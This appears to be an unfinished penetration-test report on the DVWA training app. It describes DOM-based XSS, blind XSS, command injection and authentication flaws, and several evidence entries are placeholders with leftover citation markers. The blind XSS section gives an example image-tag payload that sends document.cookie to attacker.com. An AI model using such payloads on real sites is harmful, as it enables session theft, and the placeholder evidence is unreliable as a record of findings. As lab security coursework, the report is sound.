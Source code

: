 #### DOM-Based XSS

**Description:**
DOM-based XSS (Document Object Model) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM environment in the victim's browser, rather than the HTML source code. This type of XSS often occurs client-side, making it harder to detect with traditional server-side scanning methods.

**Evidence:**

  * (Provide specific examples or screenshots if you have them that show JavaScript manipulation of the DOM leading to XSS. For instance, if an input value is directly written to an element's `innerHTML` without sanitization, and you could demonstrate it with a payload that modifies the page.)
  * [cite\_start]The DVWA's DOM-based XSS challenge specifically demonstrates this vulnerability, where client-side scripts process user input unsafely, leading to script execution[cite: 7].

#### Blind XSS

**Description:**
Blind XSS occurs when the attacker's payload is stored on the server and later executed in a different part of the application, often on a backend system or by an administrator. The attacker doesn't directly see the output of the XSS payload, hence "blind." This typically involves injecting a payload that attempts to "call back" to a server controlled by the attacker (e.g., using an image tag with an external URL or a script that sends data to an external endpoint).

**Evidence:**

  * (To provide evidence for Blind XSS, you would typically need to show a successful "callback" from the injected payload to a listening server. This might involve a screenshot of your listening server receiving a request after an administrator views the injected content. Since this isn't directly visible in the provided screenshots, you would describe the methodology here if you performed it.)
  * For instance, injecting a payload like `<img src="http://attacker.com/log?cookie=" + document.cookie>` into a field that an administrator later views, leading to a request to `attacker.com`.

### Command Injection

**Description:**
The application was found to be vulnerable to Command Injection, allowing an attacker to execute arbitrary commands on the host operating system via a vulnerable application.

**Evidence:**

  * Successful execution of system commands (e.g., `ping` commands) through input fields, indicating that the application was directly passing user input to system calls without proper sanitization [cite: 7, 8,].

### Authentication Flaws

**Description:**
(While not explicitly detailed in the provided screenshots, common authentication flaws in such applications include weak password policies, lack of brute-force protection, insecure session management, and insufficient validation of login credentials).

**Evidence:**

  * (To be documented with specific screenshots if available, e.g., demonstrating brute-force attempts or session hijacking).
